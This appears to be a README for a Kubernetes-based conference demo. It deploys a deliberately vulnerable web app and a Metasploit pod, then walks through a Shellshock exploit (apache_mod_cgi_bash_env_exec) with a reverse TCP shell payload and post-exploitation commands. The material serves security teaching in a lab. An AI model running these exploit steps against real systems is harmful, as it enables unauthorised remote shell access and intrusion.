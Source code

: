 # CPX 2021 demo
<!-- vim-markdown-toc GFM -->

* [Requirements](#requirements)
* [Installation](#installation)
* [Demo](#demo)
* [Cleanup](#cleanup)
* [Tips](#tips)

<!-- vim-markdown-toc -->

# Requirements

- [Helm3](https://helm.sh/)
- *Highly recommended*:][K9S](https://github.com/derailed/k9s)
- If you want to demo using the hard way: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/)

# Installation
> Make sure you are using Helm3 client
```bash
# Install our sushi restaurant web page
helm install -f cpx-sushi/values.yaml --namespace sushi --create-namespace sushi-restaurant cpx-sushi
# Install the attacker client
helm install -f attacker-cpx/values.yaml --namespace attacker --create-namespace attacker-client attacker-cpx
# Ignore the stdout printed by helm
```

# Demo

Run K9S, check the namespace 'vulnerable' and verify there are 2 pods running
there:

- metasploit-client: We will use this as the "attacker machine"
- vuln-app-cpx-helm-vulnerable: We will use this as the "victim machine"

Verify the vulnerable namespace has a LoadBalancer service which is has an
external-IP assigned. Write down this value as we will need it during the
attack phase. This will allow attacking the application even from outside the
K8S cluster.

Start a shell within the metasploit container and execute:
```bash
cd /usr/src/metasploit-framework
./msfconsole -r docker/msfconsole.rc -y $APP_HOME/config/database.yml
# The metasploit framework shall start...
```

Using the metasploit framework we will exploit the <i>apache_mod_cgi_bash_env_exec</i>:
```bash
search shellshock
# Locate the module with the name apache_mod_cgi_bash_env
use exploit/multi/http/apache_mod_cgi_bash_env_exec
# Check available options
show options
# Set RHOST to the external IP of the vuln-app-cpx-helm-vulnerable
set rhost <external-ip>
# You could also use the internal cluster IP since the metasploit pod has visibility of the vulnerable pod
set rport 80
set targeturi /cgi-bin/vulnerable
# Set the payload
set payload linux/x86/shell/reverse_tcp
# Check if target is vulnerable
check
# Exploit vulnerability
exploit
```

At this point you may get multiple sessions opened in background mode. List
them and use one of them to exploit the reverse tcp shell:
```bash
#List sessions
sessions
# Run interactive shell in session #1
sessions -i 1
# Start running commands
whoami
ls -la
```
#Cleanup
```bash
helm uninstall sushi-restaurant -n sushi
helm uninstall attacker-client -n attacker
```

# Tips

- Use K9S client to demonstrate interactively how to perform the attack, it
  will save sometime if you need to run kubectl all the time
